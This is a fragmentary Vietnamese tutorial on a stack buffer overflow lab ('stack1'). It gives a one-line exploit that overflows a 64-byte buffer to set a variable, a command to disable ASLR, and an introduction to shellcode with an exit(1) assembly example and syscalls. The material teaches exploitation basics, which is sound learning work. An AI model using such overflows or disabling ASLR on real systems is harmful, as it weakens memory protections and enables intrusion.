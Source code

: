 ```c=1
```


vậy biến modifed chỉ cần 4 byte đã đè rồi , vậy ta chỉ cần đưa 4 byte đó là giá trị của biến modified thôi.


## Exploite

```python=
 ./stack1 `python -c "print ('A' * 64 + 'dcba')"`
```

# Disabling ASLR

ASLR là một kỹ thuật bảo mật và mặc dù nó không được thiết kế cụ thể để chống lại ShellCode, nhưng nó liên quan đến việc ngẫu nhiên các khía cạnh nhất định của bộ nhớ (chúng ta sẽ nói về nó chi tiết hơn nhiều sau). Sự ngẫu nhiên này có thể tạo ra các khai thác shellcode giống như cái mà chúng ta sắp làm ít đáng tin cậy hơn, vì vậy chúng ta sẽ vô hiệu hóa nó ngay bây giờ bằng cách sử dụng điều này.


Cách tắt ASLR
```c
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

# SHELLCODE

Shellcode là tập hợp các lệnh được tiêm và thực thi trên chương trình bị lỗi.
Shellcode giúp kẻ tấn công có thể đạt được các mục tiêu, kẻ tấn công thường sẽ thực thi 1 chương trình có sẵn là /bin/sh
Shellcode có thể được viết bằng nhiều loại ngôn ngữ bậc cao nhưng thường được viết bằng ngôn ngữ assembly.


```c=1

Ví dụ: exit(1)
0:  b0 01   mov    al,0x1 ; sys_exit
2:  b3 01   mov    bl,0x1 ; error_code = 1
4:  cd 80   int    0x80

```
### System call 


Syscall được user mode sử dụng để giao tiếp với kernel mode nhằm:
Tạo và quản lý tiến trình
Quản lý bộ nhớ
Truy cập tệp tin, thư mục và hệ thống quản lí tệp tin.
Xuất nhập chuẩn (Input/Output)
Giao tiếp qua mạng
Quản lý thiết bị
...
